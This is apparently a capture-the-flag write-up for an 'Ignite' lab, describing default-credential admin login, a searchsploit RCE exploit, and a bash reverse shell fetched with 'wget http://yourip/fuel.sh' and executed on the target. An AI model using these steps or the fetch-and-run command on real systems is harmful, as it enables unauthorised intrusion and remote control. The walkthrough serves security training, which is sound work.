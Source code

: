 ## Ignite
<img width="122" height="101" alt="image" src="https://github.com/user-attachments/assets/3d90b0cb-86bd-426b-b8e3-9f7244ea1b3f" />

- Easy room it say with details as follows: A new start-up has a few issues with their web server.

- So first thing I do is examine the website, and look for fields or details I can use.

  <img width="810" height="148" alt="image" src="https://github.com/user-attachments/assets/8107f8ff-00a9-4660-8c63-0193e7e5ddec" />
  - This seems important. So lets try to use this information to login at the admin screen.
<img width="1042" height="245" alt="image" src="https://github.com/user-attachments/assets/80161d09-179b-4ba1-a129-9e7b12f56caa" />

- It worked, we are in as admin, someone did not change default credentials. And we now have access to upload files it looks like.

- A quick search using searchsploit gives us insight into what we can do next, with RCE 1.

<img width="1367" height="314" alt="image" src="https://github.com/user-attachments/assets/09f73a92-77ba-4a8a-ad3a-f8cc56ac3c5d" />
<img width="529" height="158" alt="image" src="https://github.com/user-attachments/assets/313c0269-d86f-40cd-8909-03538fd1f3b7" />
- We go ahead and get the exploit from the path, and go into nano to edit.
- We change the url to the target, and also comment out the proxy part because we will not need it most likely.


<img width="1342" height="374" alt="image" src="https://github.com/user-attachments/assets/65cb576f-37bb-4d0a-a565-132f6166264b" />

- After some trial and error got it to work, ended up commenting out too much..
<img width="788" height="260" alt="image" src="https://github.com/user-attachments/assets/57c56a4d-6492-4b3d-9ab7-d0f5da184573" />


- Looked for bash, and found.
  <img width="192" height="60" alt="image" src="https://github.com/user-attachments/assets/d9df8413-8ee1-42ba-97d2-3c0bff18b039" />

 - Let's try to find a reverse shell to use to get access.
 - Setup a listener on my machine first.
  <img width="290" height="102" alt="image" src="https://github.com/user-attachments/assets/eb98ec6f-c2aa-43ed-a438-4f3108c35367" />

  - Used a reverse shell cheat sheet I found with bash. https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

<img width="386" height="106" alt="image" src="https://github.com/user-attachments/assets/cd9bd5dd-a814-4738-bcf0-b2096e58e7eb" />

- Changing all the information to your machine.
- Hosted a web server on my machine to send to our target now.
  <img width="311" height="74" alt="image" src="https://github.com/user-attachments/assets/2ddb22e4-3af8-42db-9910-3bfd3be9a372" />

  - Executed a wget http://yourip/fuel.sh and gave it execute permissions.
    <img width="204" height="48" alt="image" src="https://github.com/user-attachments/assets/8637fc8d-85fa-4d39-84e9-795482227bb4" />

  - Executed bash with our file, and it worked.
    <img width="214" height="29" alt="image" src="https://github.com/user-attachments/assets/d3ae077f-1723-4fef-8717-9a692e401d50" />
    <img width="688" height="119" alt="image" src="https://github.com/user-attachments/assets/14cc4ee1-acf5-4304-aa2a-d2b0aa7b3c98" />
